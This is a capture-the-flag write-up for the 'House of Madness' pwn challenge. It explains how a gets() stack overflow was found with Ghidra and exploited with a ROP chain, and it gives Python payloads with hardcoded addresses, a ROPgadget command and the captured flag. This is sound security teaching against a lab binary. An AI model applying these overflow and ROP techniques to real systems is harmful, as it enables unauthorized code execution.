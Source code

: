 # House of Madness

* **Category:** PWN
* **Points:** 897

## Challenge

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> Note: ASLR is disabled for this challenge
> [Download]("./challenge")

## Solution

To preface, this solve was after the challenge environment was fixed with ASLR being disabled. A solve while ASLR was enabled was possible.

While messing around with the binary at first we are met with a direction to enter 'Stephen' in room 4.

![]('./img/programRun.png')

Upon further analysis with Ghidra, we see that in room 4, we unlock access to a hidden room by entering 'Stephen' that includes an unsanitized gets that would overflow 'local_1c'

![]('./img/room4.png')

Ok, cool! Overwrite buffer, overwrite eip, call get_flag(), capture the...

![]('./img/tryAgain.png)

>:(

Alright step it back. Taking a look at get_flag() we see checks for 4 keys that are initialized by 4 other functions: 'get_key1', 'get_key2','AAsDrwEk','set_key4'
While reversing the functions, it is important to note that 'get_key2' will not initialize 'key 2' if 'key 1' is already initialized. In addition we see that 'get_key1' takes an argument and compares it to 0xfeedc0de.
The obscure function 'AAsDrwEk' sets 'key 3' without any preconditions. Finally, 'set_key4' initializes 'key4' once the previous keys have been set. 
Ok, cool. Game plan is:
![]('./img/gameplan.png')

```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)

padding = "A"*28 #Overflow buffer and overwrite saved eip
payload = padding + p32(get_key3) + p32(get_key2) + p32(get_key1) + p32(get_key4) + arg + p32(get_flag)   
```
Yay now I can finally get some sle-

![]('./img/take1.png')

>:(
Some quick debugging shows that when get_key4 returns, esp is pointing to get_key1's argument and points eip to 0xfeedc0de.

![]('./img/feedcode.png')

![]('./img/gdb.png')

To understand what needs to be accomplished, it is pivotal to understand what the ret instruction does. ret will take the value at esp's address and pop it into eip and then increment esp.
Therefore, in order to have 'get_key1' to ret into 'get_flag' which is at 'esp + 0x4' on the stack, I need to somehow increment esp. Something to simply move 'get_flag' to the top of the stack...
Oh yeah! A ROP instruction to pop off '0xfeedcode' off the stack and then ret into 'get_flag'!
Using ```ROPgadget --binary ./houseof | grep pop```, we find a single 'pop ebx; ret' instruction which does exactly that!
Now just add that to the exploit and claim the flag to satisfy your lack of sleep.
```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)
pop_ret = p32(0x5655601e)

payload= "B"*28 + p32(get_key3) + p32(get_key2) + p32(get_key1) + pop_ret + arg + p32(get_key4) + p32(get_flag)
```
![]('./img/ineedsleep.png')

```
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```
